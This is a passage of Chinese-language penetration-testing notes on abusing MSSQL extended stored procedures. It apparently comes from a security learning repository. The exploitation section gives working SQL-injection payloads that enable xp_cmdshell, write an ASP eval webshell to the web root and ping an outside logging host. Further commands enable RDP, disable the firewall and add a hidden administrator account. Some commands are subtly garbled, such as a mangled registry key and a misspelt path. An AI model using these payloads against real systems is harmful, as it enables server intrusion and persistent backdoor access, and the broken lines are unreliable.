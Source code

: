   ```mssql
  -- 1. 显示C盘所有文件和目录
   	EXEC master..xp_dirtree 'c:\';
  -- 2. 显示C盘所有目录
      EXEC master..xp_dirtree 'c:\',1;
  -- 3. 显示指定目录下的目录和文件
      EXEC master..xp_dirtree 'C:\inetpub\',1,1;
  ```

****

###### ④xp_create_subdir()

* 用于创建子目录

  ```mssql
  --  在C盘下创建test文件夹
  	EXEC master..xp_create_subdir 'c:\test';
  ```

###### ⑤xp_fileexist()

* 判断文件是否存在，返回有3个字段的数据，分别是(是否为**文件**，是否为**目录**，是否有**父目录**)

  ```mssql
  EXEC master..xp_fileexist 'c:\windows\win.ini';
  ```

###### ⑥xp_regwrite()、xp_regread()

* 用于对**注册表进行修改**或**读取**，替换成任意值，造成**映像劫持**

##### d. 利用方法

###### ①写Webshell

```mssql
--  1. 查询web根目录路径
	EXEC master..xp_cmdshell 'where /r c:\*.asp'
--  2. 利用xp_cmdshell写Webshell,找绝对路径可以where命令和其他扩展存储过程组合利用
	EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\intepub\wwwroot\shell.asp'	--Windows的转义符为^，Linux的转义符为 \
```

###### ②远程桌面上线

```mssql
--  1. 查看是否禁用xp_cmdshell
    id=0 union select 1,2,count(*) from master..sysobjects where xtype='X' and name='xp_cmdshell' --+
    or
    id=1 and 1=(select count(*) from master.sys.sys.objects where name='xp_cmdshell') --+
--  2. 开启xp_cmdshell
	id=0;EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE; --+
--  3. 测试是否成功
	id=1;EXEC master.sys.xp_cmdshell 'ping -n 1 Laffrex.eyes.sh' --+
--  4. 开启RDP服务
	id=1;EXEC master.sys.xp_cmdshell 'REG ADD HELM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+  
--  5. 关闭防火墙
	id=1;EXEC master.sys.xp_cmdshell 'netsh firewall set opmode disable' --+
--  6. 添加登录用户
	id=1;EXEC master.sys.xp_cmdshell 'net user admin 1qaz!QAZ /add' --+
	id=1;EXEC master.sys.xp_cmdshell 'net localgroup administrators admin /add' --+
```
